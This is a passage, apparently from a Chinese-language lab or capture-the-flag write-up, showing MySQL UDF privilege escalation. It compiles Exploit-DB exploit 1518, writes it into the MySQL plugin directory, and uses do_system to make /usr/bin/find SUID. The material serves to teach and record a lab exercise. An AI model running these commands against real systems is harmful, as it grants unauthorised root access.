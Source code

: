 ![image-20231013191717106](./imgs/image-20231013191717106.png)

```
searchsploit -m 1518
cp /usr/share/exploitdb/exploits/linux/local/1518.c ./1518.c
gcc -g -c 1518.c
gcc -g -shared -o 1518.so 1518.o -lc
```

将1518.so 文件上传到/tmp 目录下

![image-20231013193749089](./imgs/image-20231013193749089.png)

#### MySQL提权

```sql
create database saury;
use saury;
create table saury(line blob);
insert into saury values(load_file('/tmp/1518.so'));
select * from saury into dumpfile '/usr/lib/mysql/plugin/udf.so';
create function do_system returns integer soname 'udf.so';
select do_system('chmod u+s /usr/bin/find');
```
